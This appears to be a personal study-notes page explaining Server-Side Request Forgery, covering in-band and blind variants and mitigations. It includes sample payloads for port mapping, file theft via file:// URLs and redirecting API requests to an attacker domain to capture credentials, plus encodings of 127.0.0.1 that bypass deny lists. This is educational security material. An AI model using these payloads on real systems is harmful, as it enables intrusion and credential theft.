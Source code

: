 # Server-Side Request Forgery (SSRF)

[Go back](../../index.md)

[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)
[![testingforssrf](../../../../_badges/owasp/testingforssrf.svg)](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/19-Testing_for_Server-Side_Request_Forgery)
[![server_side_request_forgery](../../../../_badges/poat/server_side_request_forgery.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

<div class="row row-cols-md-2"><div>

Server-Side Request Forgery (SSRF) is an attack in which a hacker can make a server request something from another server, usually an internal server or an API.

From instance, a website using an API. If there is a SSRF vulnerability, the hacker may be able to query the API by exploiting the website.

Common usages are:

* Port mapping
* Firewall by-pass
* Steal sensitive data
</div><div>

There are two kinds of SSRF

* **Regular/in-band SSRF**: the client will see the result
* **Blind/out-band SSRF**: nothing is returned to the client 
</div></div>

<hr class="sep-both">

## Common payloads

<div class="row row-cols-md-2"><div>

#### Forms

A common scenario is a [PHP](/programming-languages/web/php/_general/index.md) call to `file_get_contents` to access a remote file. You have similar functions in other languages.

**Mapping ports/services** 🗺️

You may inject URLs such as `http://localhost:22` to test if the port `22` is open. You could also make the server call `http://ifconfig.pro/` to get some information <small>(IP, DNS...)</small>.

**Steal files** 💰

You may inject URLs to steal a file. For instance, a URL using the file protocol: `file://some/file/on/the/target`.
</div><div>

#### URL

**Access another untended path** ✂<br> `a?api=path` $\to$ `b/path`

In that case, you could guess that the first server A is mapping the value given to `api` to the server b. You may try to inject the path, and see if you can access other API routes.

**Steal API credentials** 🗝️<br> `a?api=xxx&r=path` $\to$ `xxx.b/path`

If the programmer is using user input to determine which server will be queried, then the hacker may try to send the request to their servers instead, and get the API credentials inside the headers.

For instance, with the `api=xxx`, a normal request could be sent to `xxx.thebestapi.com/path`. But, if a hacker uses `api=malicious_website.com?&ignore=`, then the URL crafted is `malicious_website.com?&ignore=.thebestapi.com/path`. Notice that the request is now sent to another website, and the concatenated domain name is now the value of `ignore`.
</div></div>

<hr class="sep-both">

## Mitigations 🛡️

<div class="row row-cols-md-2"><div>

**Allow List/Whitelist**

It's usually the better way. But, if there is a condition like `the URL must start with https://example.com`, then it can be bypassed with `https://example.com.malicious.website`.

**Others**

* Check that the resource type is what was expected
* ...

</div><div>

**Deny list/Blacklist**

You may allow every IP aside from some such as localhost (127.0.0.1), or 169.254.169.254 in a cloud environment, but there are usually a lot of ways to bypass such filters.

For instance, `0`, `00`, `000[...]0`, `0.0.0.0`, `127.1` (IP shortening), `2130706433` (decimal), `017700000001` (octal), and many more such as [127.0.0.1.nip.io](http://127.0.0.1.nip.io)/[localtest.me](http://localtest.me) are all resolving to `127.0.0.1`.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-md-2"><div>

Other attack vectors

* avatar form
* a script
* a header
* ...
</div><div>

* Blind SSRF (requestbin/burp collaborator)
</div></div>